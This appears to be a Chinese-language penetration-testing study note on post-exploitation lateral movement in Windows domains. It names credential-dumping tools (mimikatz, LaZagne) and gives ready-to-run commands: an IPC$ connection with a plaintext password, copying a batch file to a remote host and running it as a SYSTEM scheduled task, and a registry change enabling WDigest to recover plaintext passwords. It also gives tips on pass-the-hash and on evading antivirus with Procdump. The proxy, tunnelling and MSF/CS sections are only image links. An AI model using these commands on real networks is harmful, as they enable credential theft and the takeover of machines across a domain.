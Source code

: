 # 信息收集

前提：通过提权，获取当前一台电脑的权限。

mimikatz(win)、mimipenguin(linux)：获取当前系统的密码

XenArmor(win)、LaZagne(all)：获取系统中所有（该软件支持的）应用的密码

然后利用获得的用户和密码对该网的主机做密码碰撞

# 横向渗透

![image](images/7F805FAE06924C0D84D01AF1AB2F2196clipboard.png)

### 基础知识

IPC（Internet Process Connection）是共享“命名管道”的资管，它是为了让进程间通信而开放的命名管道，可以通过验证用户名和密码获得相关的权限，在远程管理计算机和查看计算机的共享资源时使用


##### 利用流程

- 建立 IPC 链接到目标主机

- 拷贝要执行的命令脚本到目标主机

- 查看目标时间，创建计划任务（at、schtasks）定时执行拷贝到的脚本

- 删除 IPC 链接

##### 建立 IPC 失败的原因

- 目标系统不是NT 或以上的操作系统（win2003以上）

- 对方没有打开IPC$共享

- 对方未开启139、445 端口，或者被防火墙屏蔽

- 输出命令、账号密码有错误

##### 建立 IPC 常见的错误代码

- 5：拒绝访问，可能是使用的用户不是管理员权限，需要先提升权限

- 51：网络问题，Windows 无法找到网络路径

- 53：找不到网络路径，可能IP地址错误、目标未开机、目标 Lanmanserver 服务未启动、有防火墙等问题

- 67：找不到网络名，本地 Lanmanworkstation 服务未启动，目标删除 ipc$

- 1219：提供的凭据和已存在的凭据集冲突，说明已建立 IPC$，需要先删除

- 1326：账号密码错误

- 1792：目标 NetLogon 服务未启动，连接域控常常会出现此情况

- 2242：用户密码过期，目标有账号策略，强制定期更改密码 


### at&&schtask

首先建立ipc连接：

```
net use \\192.168.3.32\ipc$ "admin!@#45" /user:god.org\dbadmin
```

复制程序到远程主机

```
copy add.bat \\192.168.3.32\c$
```

然后创建计划任务

```
schtasks /create /s 192.168.3.32 /ru "SYSTEM" /tn adduser /sc DAILY /tr c:\add.bat /F
```

运行任务

```
schtasks /run /s 192.168.3.32 /tn adduser
```

删除任务

```
schtasks /delete /s 192.168.3.32 /tn adduser /f
```

==工具推荐：impacket、atexec==

### hash传递

背景: Windows2012以上版本默认关闭wdigest,攻击者无法从内存中获取明文密码

Windows2012以下版本如安装KB2871997补丁，同样也会导致无法获取明文密码

针对以上情况，我们提供了4种方式解决此类问题

- 1.利用哈希hash传递(pth，ptk等)进行移动（不需要明文）
- 2.==利用其它服务协议(SMB,WMI等)进行哈希移动(psexec、smbexec、wmi)==
- 3.利用注册表操作开启Wdigest Auth值进行获取（想办法获取明文）
- 4.利用工具或第三方平台(Hachcat)进行破解获取（wdigest开启不了，在实战情况下会被杀毒软件查杀）

知识点：

Windows系统LM Hash及NTLM Hash加密算法，个人系统在Windows vista后，服务器系统在Windows 2003以后，认证方式均为NTLM Hash。

注：这个在mimikatz上可以发现有两个加密算法，一个是LM Hash，另外一个是NTLM Hash（基本只用关注这个）

知识点：

- 注册表操作开启Wdigest Auth值：
```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```
- 域用户和本地用户的区别：god/administrator是域用户，./administrator是本地用户（我不太清楚为啥本地用户前面要加一个./） 


Mimikatz属于第三方软件，直接上传到目标主机可能被杀毒软件查杀，这时我们可以配合官方软件Procdump，将Procdump上传目标主机获取用户信息(该文件不可读)，使用本地的Mimikatz打开Procdump获取的用户信息。 

##### 工具使用例子：

```cmd
利用 SMB 服务可以通过明文或 hash 传递来远程执行，条件 445 服务端口开放（类似于FTP这种文件共享协议）

存在两种方式，第一种使用微软官方工具：psexec工具（存在两种连接方式：1. 先有 ipc 链接，psexec 需要明文或hash 传递2. 不用建立IPC直接提供明文账户密码（推荐原因：建立IPC链接可能会失败）） 


第二种是使用工具smbexec工具：（1. 非官方自带-参考impacket工具包使用，操作简单，容易被杀2. smbexec无需先ipc链接 明文或hash传递）   


WMI(Windows Management Instrumentation) 是通过135 端口进行利用，支持用户名明文或hash的方式进行认证，并且该方法不会在目标日志系统留下痕迹。（这是一种服务）
```

### pth、ptt、ptk

![image](images/2B764A3165BE4F99B7AFC6102B90F980clipboard.png)

![image](images/7292B1FEAB7B4B3594F09A11EC0A3EA9clipboard.png)

![image](images/7370C964333E4C45AD2EAD42908649EDclipboard.png)

![image](images/983E0FBF562C4B26B794BADFEBE6FD18clipboard.png)

![image](images/3DA3B0FFD1DC455AB0E3F6B662909C7Aclipboard.png)

![image](images/1CC3CDA2B0AE4B2CB4071EE2327203A2clipboard.png)

![image](images/1C268A242B964B1BAA9CFBD17D60D4D0clipboard.png)

![image](images/263B24F1A50941B3AAAF8D493A9AA6ABclipboard.png)

![image](images/E79F18D4E92B42068A1F32D1F644301Eclipboard.png)


### 域横向CS&SPN&RDP

![image](images/C06C0B70E8AC4E39BCDC812F4E8F0F10clipboard.png)  

![image](images/4721A9344A3D4FDD975272958C372C45clipboard.png)

![image](images/5C27896A6D324C4CA0CD9949F64BD171clipboard.png)

![image](images/889BF2F8FB4E47A3B7DC6D49DB90516Aclipboard.png)

![image](images/80E3F116BC6F477C89871C138527A95Dclipboard.png)

![image](images/B5F7F21FDBFC447DB7B1A278266576B4clipboard.png)

![image](images/523B82EE4AF243838D3580D24B79E9D4clipboard.png)

# 代理

![image](images/0CFF847F60DA44FE8903B934E2C0A6B1clipboard.png)

### ngrok

![image](images/3EBD39A1DDF94619B36C311B745C5F12clipboard.png)

### frp

![image](images/ECA8AF14CBCA4FF6A42F366B458CF1C0clipboard.png)

![image](images/628669DAA6454DFBA9969BC623963254clipboard.png)

![image](images/975BECF05F6345FD8BFE9E743463100Bclipboard.png)

# 隧道技术

![image](images/73145AFED966423BA9390C9B531F9808clipboard.png)

![image](images/029AFC7E06CC41D4B277E84E34DA3FBAclipboard.png)

# MSF && CS 联动

![image](images/1418FFE9C02443E2A14E00C990F4B7FAclipboard.png)